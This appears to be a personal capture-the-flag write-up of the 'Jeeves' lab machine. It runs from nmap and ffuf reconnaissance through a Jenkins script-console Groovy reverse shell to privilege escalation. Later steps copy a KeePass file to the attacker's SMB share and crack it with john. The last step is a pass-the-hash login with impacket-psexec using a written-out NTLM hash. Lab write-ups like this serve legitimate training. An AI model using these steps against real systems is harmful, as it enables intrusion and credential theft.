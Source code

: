 **Ping**
![[Pasted image 20240616190633.png]]

**Nmap default Scan**
```
nmap 10.10.10.63 -oN dnmap
```
![[Pasted image 20240616190803.png]]

Nmap Script and Service scan
```
nmap 10.10.10.63 -sV -sC -A -oN snmap
```
![[Pasted image 20240616191002.png]]

Nmap All Port Scan
```
nmap -p- --min-rate 10000 10.10.10.63 -oN anmap
```
![[Pasted image 20240616191022.png]]

Directory traversal using ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/FUZZ -t 100 -o ffuf.txt
```
![[Pasted image 20240616195402.png]]
Nothing interesting port 80, so i go with port 50000 and found a directory /askjeeves

Will try that directory
![[Pasted image 20240616195526.png]]
Cool, we got something



There is a Build_Executor_Status>master>script console
![[Pasted image 20240616195856.png]]

![[Pasted image 20240616195925.png]]

![[Pasted image 20240616195948.png]]

![[Pasted image 20240616200110.png]]

Will run a groovy script to reverse shell:https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
Modified the script with my Ip and Port
![[Pasted image 20240616200304.png]]
run it.

Got reverse shell
![[Pasted image 20240616200337.png]]

Got user.txt
![[Pasted image 20240616200517.png]]

Will jump to Privilege Escalation....!


Will see Our Privileges
```
whoami /priv
```
![[Pasted image 20240616200620.png]]
Got impersonation, Cooool...!

System Info
![[Pasted image 20240616200656.png]]

User Info
![[Pasted image 20240616200805.png]]

Will Search for any interesting files
```
dir /S C:\users\*.kdbx *.log *.ini *.txt *.conf
```
![[Pasted image 20240616215417.png]]
Found .kdbx file

Will transfer it to our kali using smb share we already established
```
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.2\kali
```
![[Pasted image 20240616215524.png]]

Received
![[Pasted image 20240616215600.png]]

I tried to open it is asking password, will crack it using john
```
keepass2john CEH.kdbx > ceh.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt ceh.hash
```
![[Pasted image 20240616215748.png]]
Got it...!


Will open the file now
![[Pasted image 20240616220247.png]]

![[Pasted image 20240616215821.png]]

There is an Ntlm hash for will try that with admin, using Pass the hash using psexec (Impacket)
![[Pasted image 20240616220326.png]]

Will copy that and use to Pass the Hash
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```
![[Pasted image 20240616220511.png]]
We are admin know...!

Will search for root.txt
![[Pasted image 20240616221334.png]]



Done with Jeeves....:)
